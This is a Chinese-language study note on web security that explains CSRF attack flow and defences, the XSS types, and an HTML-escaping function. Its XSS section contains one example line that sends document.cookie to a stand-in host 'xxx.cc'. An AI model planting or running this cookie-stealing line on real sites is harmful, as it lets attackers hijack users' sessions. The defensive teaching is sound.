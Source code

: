 ### 关于XSS和CSRF

#### CSRF（Cross-site request forgery）

> CSRF：简单来说，CSRF就是如果我们登录了一个正常网站A并且在本地生成Cookie，并且未退出的情况下，同时又访问了另一个危险网站B，网站B里面有一段恶意脚本，通过利用（图片的src避开跨域限制之类）本地的cookies来（冒充用户）通过验证并且成功访问A网站的接口来实现一些操作。[具体浏览](http://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html)

若是没有同源策略，那么网络安全可能就会差上很多，不仅仅是不同页面之间可以相互访问对方的服务接口，还因为是cookies可以随意被别的网页上的脚本访问并且可以直接访问带权限的接口，这对于恶意网站来说，想要操作用户的账户做任何操作实在是太轻松了。所以同源策略是必须的。

整理一下攻击过程：

1. 用户 C 登录信任网站 A
2. **通过验证，在用户 C 处产生 A 的 cookie**
3. **用户在没有登出 A 的情况下，访问危险网站 B**
4. B 要求访问网站 A，发出一个请求
5. 用户 C 的浏览器就会访问 A，并带着 cookie
6. 网站 A 根据 cookie 拿到用户 C 权限，但是却做着 B 的请求


**CSRF 之所以出现就是因为 Web 的身份验证机制，服务器虽然可以通过 cookie，session 来保证一个请求是来自于某个用户的，但是却无法保证该请求是不是用户批准发送的**



**防范原理：**

**能够识别出哪些请求是非正常用户主动发起的**。这就要求我们**在请求中嵌入一些额外的授权数据，让网站服务器能够区分出这些未授权的请求**



**防范策略：**

- 使用`post`请求


- 验证 `HTTP Referer` 字段，利用 `HTTP` 头中的 `Referer` 判断请求来源是否合法。
  - `Referer` 的值是由浏览器提供的，不可全信，低版本浏览器下 `Referer` 存在伪造风险。
  - 用户自己可以设置浏览器使其在发送请求时不再提供 `Referer` 时，网站将拒绝合法用户的访问。
- 使用验证码
- 以`HTTP` 请求参数的形式加入一个随机产生的 `token` 交由服务端验证。（若没带上`token`或不正确，则请求失败）
- 在 `HTTP` 头中自定义属性并验证 `One-Time Tokens`，将 `token` 放到 `HTTP` 头中自定义的属性里。通过 `XMLHttpRequest` 的异步请求交由后端校验，并且一次有效。





#### XSS

> 还有一种常见的被动攻击方式：XSS，应该是在网站中插入代码来盗取用户的cookie。原理是通过JavaScript代码注入页面。

- `Reflected XSS`（基于反射的 `XSS` 攻击）：主要通过利用**系统反馈**行为漏洞，并欺骗用户主动触发，从而发起 `Web` 攻击。
- `Stored XSS`（基于存储的 `XSS` 攻击）：`Stored XSS` 和 `Reflected XSS` 的差别就在于，具有攻击性的脚本被保存到了服务器并且可以被普通用户完整的从服务的取得并执行，从而获得了在网络上传播的能力。
- `DOM-based or local XSS`（基于 `DOM` 或本地的 `XSS` 攻击）：`DOM` 型 `XSS` 其实是一种特殊类型的反射型 `XSS`，它是基于 `DOM` 文档对象模型的一种漏洞。可以通过 `DOM` 来动态修改页面内容，从客户端获取 `DOM` 中的数据并在本地执行。基于这个特性，就可以利用 `JS` 脚本来实现 `XSS` 漏洞的利用。

```js
// 常见的XSS插入到DOM的代码，盗取用户的cookie
(new Image()).src = 'http://xxx.cc/steal-cookie?cookies=' + document.cookie
```

**防范策略：**

- 在客户端和服务端对用户输入进行过滤，在客户端对输出进行转义，主要转义类似`<`，`>`，`'`，`"`，`&`这些字符。

  - 比如说，当页面上直接使用`innerHTML`来塞入一些信息时，最好先把这段HTML字符串进行转义，把`<`转成`&lt;`，把`>`转成`&gt;`，通过**把标签相关的字符转化为转成字符实体** ，这样子就能防止一些插入HTML动态执行脚本的行为。

    ```js
    function encodeHTML (a) {
      return String(a)
        .replace(/&/g, "&amp;")
        .replace(/</g, "&lt;")
        .replace(/>/g, "&gt;")
        .replace(/"/g, "&quot;")
        .replace(/'/g, "&#39;")
    }
    ```

- 使用 `HTTP only` 的 `Cookie`。